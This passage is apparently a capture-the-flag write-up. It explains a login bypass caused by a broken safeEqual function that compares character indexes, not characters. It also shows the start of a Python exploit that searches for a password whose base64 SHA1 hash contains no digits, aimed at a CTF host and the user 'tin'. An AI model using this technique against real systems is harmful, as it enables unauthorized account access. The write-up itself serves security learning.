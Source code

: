Can you see it? Yeah: `a.indexOf(i) === b.indexOf(i)` is (strictly) comparing indexes instead of characters.

This function is used to compare the base64 encoded SHA1 hashes of the password entered by the user, with the hardcoded one.

```javascript
async function getUserByUsernameAndPassword (username, password) {
  const user = await getUserByUsername(username)
  if (!user) return undefined

  const hashedPassword = crypto.createHash('sha1').update(password).digest('base64')
  if (!safeEqual(user.hashedPassword, hashedPassword)) return undefined
  
  return user
}
```

How can we exploit this?

Base64 alphabet does include ASCII digits so, to get a `true` from `safeEqual` we need to provide a password that, when hashed and encoded either:

1. has all the digits in the same position as the hardcoded password;
2. doesn't have any digit, AND also the stored `b64(sha1(password))` doesn't have any digit.

Number 1 looked quite hard, while 2. definitely more viable. This also thanks to the password reset feature for the user `tin`.

So, the strategy is: find a password whose `b64(sha1(password))` doesn't contain any number, reset `tin`'s password and try to authenticate until we can log in.

Here is the exploit I wrote:

```python
#!/usr/bin/env python3
import base64
import hashlib
import itertools
import re
import requests
import sys


HOME_URL = "https://vrp-website-web.h4ck.ctfcompetition.com/"
P_RES_URL = f"{HOME_URL}reset-password"
LOGIN_URL = f"{HOME_URL}login"
USERNAME = "tin"


def b64sha1(word):
    digest = hashlib.sha1(word.encode('utf-8')).digest()
    return str(base64.b64encode(digest))


# Find a password p that doesn't generate a b64(sha1(p)) containing digits
alphabet = tuple('acdefghjkmnpqrtuvwxyz0123456789')
for length in range(2, 5):
    for pword_l in itertools.product(alphabet, repeat=length):
        pword = ''.join(pword_l)
        b64 = b64sha1(pword)
        if all(not ch.isdigit() for ch in b64):
            print(f"using password '{pword}' (hash: {b64})")
            break
    else:
        continue
    break

```